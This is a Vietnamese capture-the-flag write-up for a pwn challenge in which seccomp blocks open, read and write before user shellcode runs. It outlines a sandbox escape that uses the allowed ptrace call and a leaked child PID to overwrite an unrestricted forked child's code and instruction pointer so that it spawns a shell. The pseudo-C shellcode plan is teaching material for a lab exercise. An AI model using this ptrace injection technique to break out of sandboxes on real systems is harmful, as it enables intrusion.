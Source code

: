 Chương trình gọi fork trước khi bắt đầu vào flow của user.
Ở trong flow của user ta thấy chương trình cho phép allocate shellcode ở trên một địa chỉ rồi cho phép ta thực thi shellcode đó, nhưng trước khi thực hiện lại load seccomp vào.

```c
void __cdecl ProtectProgram()
{
...

  ctx = (scmp_filter_ctx)seccomp_init(0LL);
  ret = seccomp_rule_add(ctx, 2147418112LL, 4LL, 0LL);
  reta = seccomp_rule_add(ctx, 2147418112LL, 5LL, 0LL) | ret;
...
  rets = seccomp_rule_add(ctx, 2147418112LL, 231LL, 0LL) | retr;
  if ( (unsigned int)seccomp_load(ctx) | rets )
  {
    perror("seccomp");
    exit(1);
  }
  seccomp_release(ctx);
} 
```

Kiểm tra những syscall được phép:

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/817b84f4-d300-4e21-8def-8c5bfcf26454)

Oh no, không có `open, read, write` thì sao đọc flag T_T.

Tuy nhiên để ý kĩ thì chương trình có cho leak `pid` của process con ra trước khi ta muốn chạy shellcode:
```c
case 2:
            puts("Debug information:");
            printf("Child PID = %d\n", (unsigned int)pid);
            break;
```

Seccomp filter có cho phép hàm `ptrace`, ta biết được `pid` của process con, chưa kể process con được fork ra trước khi load seccomp vào ...

Thế là sau một hồi loay hoay, mình nghĩ đến việc sử dụng hàm `ptrace` để ghi đè memory và `$rip` của process con.

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/671624b5-95da-4437-958c-1635b9aca59a)

Để ý nữa thì chương trình `NO PIE`, vậy thì mình sẽ thử ghi đè ở trong `_text` segment của process con là một đoạn shellcode rồi sửa `$rip` của nó trỏ tới đó.

Ý tưởng cho shellcode sẽ là:
```c 
ptrace(PTRACE_ATTACH,child_pid,0,0); // attach
ptrace(PTRACE_POKEDATA,child_pid,_start,shellcode_sh); // một vòng lặp sửa dần bytecode của hàm _start thành shellcode gọi shell ra
ptrace(PTRACE_POKEDATA,child_pid,sleep@got,_start);
ptrace(PTRACE_GETREGS,child_pid,0,$rsp+0x100); // dump struct user_reg ra stack*
*(int64_t *)($rsp+0x100+16*8) = sleep@plt ; // sửa $rip = sleep@plt
ptrace(PTRACE_SETREGS,child_pid,0,$rsp+0x100); // commit
ptrace(PTRACE_DETACH,child_pid,0,0); // detach
```
